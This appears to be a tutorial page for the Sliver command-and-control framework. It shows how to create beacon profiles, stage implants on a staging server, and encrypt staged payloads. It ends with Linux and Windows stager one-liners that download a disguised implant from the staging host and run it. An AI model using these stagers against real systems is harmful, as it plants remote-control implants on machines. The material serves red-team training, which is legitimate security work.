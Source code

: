 # This course is intented for the 1.6 version of Sliver, which is not yet published

When using Sliver during a live engagement, you’re going to need to use custom stagers, which are essentially a first binary or commandline that will retrieve and/or load Sliver into memory on your target system. Sliver can generate shellcode for your stager to execute by using the `profiles` command.

For this exercise we will create a new beacon profile and prepare to stage it.

```asciinema
{"src": "/asciinema/create_profile.cast", "cols": "132", "rows": "14", "idleTimeLimit": 8}
```

If you look at the generated implant, you'll notice the `ID` field has been populated. When downloading your payload from the staging server your URL needs to be in the form of:
```
https://sliver-ip/whatever.stager_file_ext?x=yourID
```

There is a lot of flexibility in the form of this URL, the conditions for successfull staging are:
* The file extension needs to match the c2 profile's stager_file_ext
* There has to be a one character http url parameter
* The digits found in the ID need to match an implant ID, if your implant ID is 1234, abcd1234, 12beu34 are all valid values

To expose a payload you need to use the `implants stage` command and specifically select the implant to leave accessible.

```asciinema
{"src": "/asciinema/stage_implant.cast", "cols": "132", "rows": "14", "idleTimeLimit": 8}
```

At this point we can try retrieving our implant, the ID is 19778.

```asciinema
{"src": "/asciinema/implant_curl.cast", "cols": "132", "rows": "14", "idleTimeLimit": 8}
```

Sliver staging also supports encoding or encrypting our payloads before exposing them extenrally using the `profile stage` command, the implant configuration remains the same but you are now able to stage different versions of it simultaneously.

```asciinema
{"src": "/asciinema/stage_compress_encrypt.cast", "cols": "132", "rows": "14", "idleTimeLimit": 8}
```

A simple stager could look like this for example in Linux:

```
curl http://localhost/nothingtoseehere.yml?c=1234 --output nothingtoseehere && chmod u+x nothingtoseehere &&nohup ./nothingtoseehere
```

Or on Windows:
```
curl http://172.20.10.3/test.woff?a=29178 -o t.exe && .\t.exe
```

